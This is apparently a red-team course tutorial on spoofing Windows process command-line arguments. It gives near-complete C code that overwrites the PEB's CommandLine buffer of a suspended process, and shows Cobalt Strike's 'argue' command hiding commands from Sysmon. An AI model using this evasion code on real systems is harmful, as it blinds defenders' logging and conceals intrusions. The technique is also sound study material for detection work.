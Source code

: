 Processes can be started with command line arguments.  For instance, if we do:

```
C:\>notepad C:\Windows\System32\WindowsCodecsRaw.txt
```


Notepad will launch and open the specified file.  Logging tools and process inspection tools can read these arguments, as they are stored in the Process Environment Block (PEB) of the process itself.

![[34. Command Line Spoofing.png]]

However, there are plenty of times where we may want to obscure our command line arguments to hide our true intent or mislead defenders.  This can be done using the following high-level steps:

-   Create a process with "fake" arguments (these are the arguments you want to get logged) in a suspended state.
-   Reach into the PEB and find the RTL_USER_PROCESS_PARAMETERS.
-   Overwrite the command line arguments in this structure with the actual arguments you want executed.
-   Resume the process.  When the process resumes, it executes the new arguments.

Create the target process with the fake arguments with the CREATE_SUSPENDED flag.

```c
#include <iostream>
#include <Windows.h>

int main()
{
    // Create the process with fake args
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    WCHAR fakeArgs[] = L"notepad totally-fake-args.txt";

    if (CreateProcess(
        L"C:\\Windows\\System32\\notepad.exe",
        fakeArgs,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        L"C:\\",
        &si,
        &pi))
    {
        printf("Process created: %d", pi.dwProcessId);
    }
}
```

![[35. Command Line Spoofing.png]]

Next, we need to use the native NtQueryInformationProcess API to query the process and populate a PROCESS_BASIC_INFORMATION struct.  One of the properties on this struct is the base address of the PEB.  For that, we need the **typedef** for the function.

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

typedef NTSTATUS(*QueryInformationProcess)(IN HANDLE, IN PROCESSINFOCLASS, OUT PVOID, IN ULONG, OUT PULONG);

  

Resolve the location of the API from ntdll.dll.

// Resolve the location of the API from ntdll.dll
HMODULE ntdll = GetModuleHandle(L"ntdll.dll");
QueryInformationProcess NtQueryInformationProcess = (QueryInformationProcess)GetProcAddress(ntdll, "NtQueryInformationProcess");
```

  

Then we can call it.

```c
// Call NtQueryInformationProcess to read the PROCESS_BASIC_INFORMATION
PROCESS_BASIC_INFORMATION pbi;
DWORD length;

NtQueryInformationProcess(
    pi.hProcess,
    ProcessBasicInformation,
    &pbi,
    sizeof(pbi),
    &length);
```

  

Read the PEB using ReadProcessMemory.

```c
// With the PEB base address, we can read the PEB structure itself
PEB peb;
SIZE_T bytesRead;

ReadProcessMemory(
    pi.hProcess,
    pbi.PebBaseAddress,
    &peb,
    sizeof(PEB),
    &bytesRead);
```

  

Now from the PEB, we have the location of the ProcessParameters.  Read those next.

```c
// Read the Process Parameters
RTL_USER_PROCESS_PARAMETERS rtlParams;

ReadProcessMemory(
    pi.hProcess,
    peb.ProcessParameters,
    &rtlParams,
    sizeof(RTL_USER_PROCESS_PARAMETERS),
    &bytesRead);
```
  

Craft the new arguments and write them into the CommandLine buffer.

```c
// Craft new args and write them into the command line buffer
WCHAR newArgs[] = L"notepad C:\\Windows\\System32\\WindowsCodecsRaw.txt";
SIZE_T bytesWritten;

WriteProcessMemory(
    pi.hProcess,
    rtlParams.CommandLine.Buffer,
    newArgs,
    sizeof(newArgs),
    &bytesWritten);
```

  

Finally, resume the process.

```c
ResumeThread(pi.hThread);
```

  

Notepad will now open WindowsCodecsRaw.txt, but Sysmon has recoded the fake args.

```
Process Create:
ProcessId: 7056
Image: C:\Windows\System32\notepad.exe
CommandLine: notepad totally-fake-args.txt
CurrentDirectory: C:\
```
  

However, if we inspect it with Process Hacker, we see something rather curious.


![[36. Command Line Spoofing.png]]

It's the path to the real file and it's truncated.  So what's happening here?

First, Process Hacker provides point-in-time data.  It will re-read the PEB each time we close and re-open the properties window for a process.  So logically, it's now reading the new args we wrote into the PEB.

Second, the data within this buffer is actually a **UNICODE_STRING** which looks something like this:

```c
struct UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
}
```

  

You can see that it has a Buffer (holds the actual data) and a Length (the length of the data).  When the process was created, the Length is **58** (_notepad totally-fake-args.txt_), but the new args (_notepad C:\\Windows\\System32\\WindowsCodecsRaw.txt_) has a length of **96**.  We are updating the content of the buffer, but not the length field; and if you read 58 bytes of the new args, it takes you as far as highlighted in bold: _**notepad C:\\Windows\\System32\\W**indowsCodecsRaw.txt_.

Process Hacker, Process Explorer and possibly others only read up to the value given by this field, so we can trick them by intentionally making it smaller, thus truncating the string at a strategic point (e.g. in this instance, what if it only showed "notepad" and not the path...).  _This is left as an exercise to the reader._

Command Line arg spoofing is controlled in Cobalt Strike with the `argue` command.

```c
beacon> help argue
Use: argue [command] [fake arguments]
     argue [command]
     argue
```

Spoof [fake arguments] for [command] processes launched by Beacon.
This option does not affect runu/spawnu, runas/spawnas, or post-ex jobs.

Use argue [command] to disable this feature for the specified command.

Use argue by itself to list programs with defined spoofed arguments.

  

One thing to note about the implementation is that it also does not adjust the length field or allocate new memory, so the fake args should be as long, or longer than the real ones.

Let's start with a baseline:

```c
beacon> shell whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Group used for deny only                          
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192  
```
  

Because the shell command was used here, Sysmon logs the creation of cmd.exe with the associated command line arguments.

```
Process Create:
ProcessId: 5096
Image: C:\Windows\System32\cmd.exe
CommandLine: C:\Windows\system32\cmd.exe /C whoami /groups
```
  

If we still wanted to run whoami via cmd, but without it appearing on the command line, we could do:

```
beacon> argue C:\Windows\system32\cmd.exe /c ping 127.0.0.1 -n 10
[*] Tasked beacon to spoof 'C:\Windows\system32\cmd.exe' as '/c ping 127.0.0.1 -n 10'

beacon> shell whoami /groups
```
  

We get the same output, but Sysmon logged it as:

```
Process Create:
ProcessId: 2588
Image: C:\Windows\System32\cmd.exe
CommandLine: C:\Windows\system32\cmd.exe /c ping 127.0.0.1 -n 10
```
  

Command Line spoofing is not a silver bullet, as in this case a process creation event for whomi.exe was still created.  The technique is much more effective when running commands that don't spawn additional processes.


